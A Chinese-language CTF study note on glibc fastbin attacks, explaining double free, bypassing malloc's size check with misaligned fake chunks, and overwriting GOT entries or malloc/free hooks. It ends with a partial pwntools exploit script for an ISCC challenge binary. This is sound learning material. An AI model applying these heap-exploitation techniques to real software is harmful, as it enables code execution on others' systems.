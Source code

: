 # Fastbin Attack
暂时接触到了两种针对堆分配机制中fastbin的攻击方式，double free和house of spirit  
##Double free  
>###基本原理
>与uaf是对free之后的指针直接进行操作不同，double free通过利用fastbin对堆的分配机制，改写在fastbin中的chunk，实现对指定内存的堆块分配。  
>先正常释放chunk1和chunk2  
>![](https://i.imgur.com/qK9t2MK.png)  
>此时重新释放chunk1(连续两次释放相同的堆块会报错)  
>![](https://i.imgur.com/LhzmSV1.png)
>double free通过在fastbin数组中形成**main_arena -> chunk1 -> chunk2 -> chunk1**结构分配malloc并向其中写入之后，fastbin中仍存在chunk2和chunk1，且**chunk1的fd指针已经被改写**，因为分配出去的和在fastbin中的指向的是相同的内存区域。  
>![](https://i.imgur.com/yXp5WQa.png)  
>之后将chunk2和chunk1分配出去，**再次进行分配相同大小**堆块的时候就会将指定地址的内存区域当做堆块分配出去，从而进行操作。  
>###malloc检查
>fastbin中堆块的结构如图  
>![](https://i.imgur.com/QwdPREk.png)  
>其中size of previous chunk 和 size of chunk各占去8bytes(x64)。  
>在进行malloc分配堆块的时候，会进行对待分配内存的检查，但只是检查堆块大小标志位和将分配的堆块的大小是否符合，所以只需在构造时利用字节错位等，找到合适的位置，保证这个地址的数据满足是0x******** 000000××的形式。"xx" + 0x10在fastbin的范围内便能够通过检验。
>>![](https://i.imgur.com/iQcZhHz.png)
>>1.因为在比较中，后者是4bytes，所以只要保证选取的size of data的低4bytes满足0x000000xx即可，而前面无所谓即为0x********。  
>>2.没有对其检查，所以可以随意搞偏移，而不必要找8的倍数作为地址。  
>
>分析ISCC的write some paper，存在double free，且存在一个"gg"函数直接获得shell，则可以通过覆写got表，将某个函数的got中的地址替换为gg函数的地址，所以需要在got表前面不远处找到一个合适的地址能够实现绕过malloc对堆块大小的检查。  
>![](https://i.imgur.com/KirLcFK.png)  
>0x602000是.got.plt表的开始地址，偏移出两个字节就能够构造出很多满足size要求的结构。
>如此选择一个合适的地址设为A，则chunk起始地址为A-8(pre size)，usrdata(fd指针与之同体)部分为A+8，且上一个fd指向地址为A-8。  
>构造的xx大小-0x10，为malloc的参数，即返回的usrdata大小。  
>####Addition
>**需要调用函数系统函数时，不要覆写 _GLOBAL_OFFSET_TABLE_部分**，否则将导致系统函数不能正确调用。  
>如果开了full relro的话 got表是不能改的 这个时候一般用double free控制__free_hook __malloc_hook。:x
>
>贴上ISCC 那道题的代码，不知道为啥本地跑不动了，印象中远程是这么拿到flag的。
>
>   #!/usr/bin/env python
>   # -*-coding=utf-8-*-
>   from pwn import *
>   context.log_level = 'debug'
>   io = process("./pwn3")
>   # io = remote('47.104.16.75',8999)
>   elf = ELF('./pwn3')
>   # gdb.attach(io,'b * main +53')
>   secret = elf.symbols['secret']
>   gg = elf.symbols['gg']
>   puts_got = elf.got['puts']
>>   
>   fakechunk = 0x602032
>   payload = 'a' * 6 + p64(gg) * 2 
>   # malloc first chunk
>   io.recvuntil('delete paper\n')
>   io.sendline('1')
>   io.recvuntil('9):')
>   io.sendline('1')
>   io.recvuntil("ter:")
>   io.sendline('48')
>   io.recvuntil('content:')
>   io.sendline("first")
>>   
>   # malloc second chunk
>   io.recvuntil('delete paper\n')
>   io.sendline('1')
